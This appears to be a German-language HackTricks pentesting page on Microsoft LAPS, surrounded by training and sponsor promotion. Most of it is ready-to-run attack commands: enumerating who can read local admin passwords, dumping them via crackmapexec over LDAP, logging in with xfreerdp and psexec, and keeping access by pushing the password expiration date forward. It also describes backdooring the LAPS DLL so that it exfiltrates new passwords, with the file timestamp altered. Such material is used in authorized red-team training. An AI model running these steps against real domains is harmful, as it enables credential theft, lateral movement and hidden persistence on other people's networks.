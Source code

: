 # LAPS

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## Grundinformationen

Local Administrator Password Solution (LAPS) ist ein Tool zur Verwaltung eines Systems, bei dem **Administratorpasswörter**, die **einzigartig, zufällig und häufig geändert** werden, auf domänenverbundenen Computern angewendet werden. Diese Passwörter werden sicher in Active Directory gespeichert und sind nur für Benutzer zugänglich, die durch Access Control Lists (ACLs) die Berechtigung erhalten haben. Die Sicherheit der Passwortübertragungen vom Client zum Server wird durch die Verwendung von **Kerberos Version 5** und **Advanced Encryption Standard (AES)** gewährleistet.

Bei den Computerobjekten der Domäne führt die Implementierung von LAPS zur Hinzufügung von zwei neuen Attributen: **`ms-mcs-AdmPwd`** und **`ms-mcs-AdmPwdExpirationTime`**. Diese Attribute speichern das **Klartext-Administratorpasswort** und **seine Ablaufzeit**.

### Überprüfen, ob aktiviert
```bash
reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled

dir "C:\Program Files\LAPS\CSE"
# Check if that folder exists and contains AdmPwd.dll

# Find GPOs that have "LAPS" or some other descriptive term in the name
Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | select DisplayName, Name, GPCFileSysPath | fl

# Search computer objects where the ms-Mcs-AdmPwdExpirationTime property is not null (any Domain User can read this property)
Get-DomainObject -SearchBase "LDAP://DC=sub,DC=domain,DC=local" | ? { $_."ms-mcs-admpwdexpirationtime" -ne $null } | select DnsHostname
```
### LAPS Passwortzugriff

Sie könnten **die rohe LAPS-Richtlinie herunterladen** von `\\dc\SysVol\domain\Policies\{4A8A4E8E-929F-401A-95BD-A7D40E0976C8}\Machine\Registry.pol` und dann **`Parse-PolFile`** aus dem [**GPRegistryPolicyParser**](https://github.com/PowerShell/GPRegistryPolicyParser) Paket verwenden, um diese Datei in ein menschenlesbares Format zu konvertieren.

Darüber hinaus können die **nativ LAPS PowerShell-Cmdlets** verwendet werden, wenn sie auf einem Rechner installiert sind, auf den wir Zugriff haben:
```powershell
Get-Command *AdmPwd*

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Cmdlet          Find-AdmPwdExtendedRights                          5.0.0.0    AdmPwd.PS
Cmdlet          Get-AdmPwdPassword                                 5.0.0.0    AdmPwd.PS
Cmdlet          Reset-AdmPwdPassword                               5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdAuditing                                 5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdComputerSelfPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdReadPasswordPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdResetPasswordPermission                  5.0.0.0    AdmPwd.PS
Cmdlet          Update-AdmPwdADSchema                              5.0.0.0    AdmPwd.PS

# List who can read LAPS password of the given OU
Find-AdmPwdExtendedRights -Identity Workstations | fl

# Read the password
Get-AdmPwdPassword -ComputerName wkstn-2 | fl
```
**PowerView** kann auch verwendet werden, um herauszufinden **wer das Passwort lesen kann und es lesen kann**:
```powershell
# Find the principals that have ReadPropery on ms-Mcs-AdmPwd
Get-AdmPwdPassword -ComputerName wkstn-2 | fl

# Read the password
Get-DomainObject -Identity wkstn-2 -Properties ms-Mcs-AdmPwd
```
### LAPSToolkit

Das [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit) erleichtert die Enumeration von LAPS mit mehreren Funktionen.\
Eine davon ist das Parsen von **`ExtendedRights`** für **alle Computer mit aktivierten LAPS.** Dies zeigt **Gruppen**, die speziell **delegiert sind, um LAPS-Passwörter zu lesen**, die oft Benutzer in geschützten Gruppen sind.\
Ein **Konto**, das **einen Computer** zu einer Domäne hinzugefügt hat, erhält `All Extended Rights` über diesen Host, und dieses Recht gibt dem **Konto** die Fähigkeit, **Passwörter zu lesen**. Die Enumeration kann ein Benutzerkonto anzeigen, das das LAPS-Passwort auf einem Host lesen kann. Dies kann uns helfen, **spezifische AD-Benutzer** zu identifizieren, die LAPS-Passwörter lesen können.
```powershell
# Get groups that can read passwords
Find-LAPSDelegatedGroups

OrgUnit                                           Delegated Groups
-------                                           ----------------
OU=Servers,DC=DOMAIN_NAME,DC=LOCAL                DOMAIN_NAME\Domain Admins
OU=Workstations,DC=DOMAIN_NAME,DC=LOCAL           DOMAIN_NAME\LAPS Admin

# Checks the rights on each computer with LAPS enabled for any groups
# with read access and users with "All Extended Rights"
Find-AdmPwdExtendedRights
ComputerName                Identity                    Reason
------------                --------                    ------
MSQL01.DOMAIN_NAME.LOCAL    DOMAIN_NAME\Domain Admins   Delegated
MSQL01.DOMAIN_NAME.LOCAL    DOMAIN_NAME\LAPS Admins     Delegated

# Get computers with LAPS enabled, expirations time and the password (if you have access)
Get-LAPSComputers
ComputerName                Password       Expiration
------------                --------       ----------
DC01.DOMAIN_NAME.LOCAL      j&gR+A(s976Rf% 12/10/2022 13:24:41
```
## **Dumping LAPS-Passwörter mit Crackmapexec**
Wenn kein Zugriff auf PowerShell besteht, können Sie dieses Privileg remote über LDAP ausnutzen, indem Sie
```
crackmapexec ldap 10.10.10.10 -u user -p password --kdcHost 10.10.10.10 -M laps
```
Dies wird alle Passwörter ausgeben, die der Benutzer lesen kann, sodass Sie mit einem anderen Benutzer einen besseren Fuß in die Tür bekommen.

## ** Verwendung des LAPS-Passworts **
```
xfreerdp /v:192.168.1.1:3389  /u:Administrator
Password: 2Z@Ae)7!{9#Cq

python psexec.py Administrator@web.example.com
Password: 2Z@Ae)7!{9#Cq
```
## **LAPS Persistenz**

### **Ablaufdatum**

Sobald man Admin ist, ist es möglich, die **Passwörter** zu **erhalten** und einen Computer daran zu **hindern**, sein **Passwort** zu **aktualisieren**, indem man das Ablaufdatum in die Zukunft setzt.
```powershell
# Get expiration time
Get-DomainObject -Identity computer-21 -Properties ms-mcs-admpwdexpirationtime

# Change expiration time
## It's needed SYSTEM on the computer
Set-DomainObject -Identity wkstn-2 -Set @{"ms-mcs-admpwdexpirationtime"="232609935231523081"}
```
{% hint style="warning" %}
Das Passwort wird weiterhin zurückgesetzt, wenn ein **Admin** das **`Reset-AdmPwdPassword`** Cmdlet verwendet; oder wenn **Nicht erlauben, dass die Passwortablaufzeit länger ist als von der Richtlinie erforderlich** in der LAPS GPO aktiviert ist.
{% endhint %}

### Hintertür

Der ursprüngliche Quellcode für LAPS kann [hier](https://github.com/GreyCorbel/admpwd) gefunden werden, daher ist es möglich, eine Hintertür in den Code einzufügen (innerhalb der `Get-AdmPwdPassword` Methode in `Main/AdmPwd.PS/Main.cs` zum Beispiel), die irgendwie **neue Passwörter exfiltriert oder sie irgendwo speichert**.

Dann einfach die neue `AdmPwd.PS.dll` kompilieren und auf die Maschine in `C:\Tools\admpwd\Main\AdmPwd.PS\bin\Debug\AdmPwd.PS.dll` hochladen (und die Änderungszeit ändern).

## Referenzen
* [https://4sysops.com/archives/introduction-to-microsoft-laps-local-administrator-password-solution/](https://4sysops.com/archives/introduction-to-microsoft-laps-local-administrator-password-solution/)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
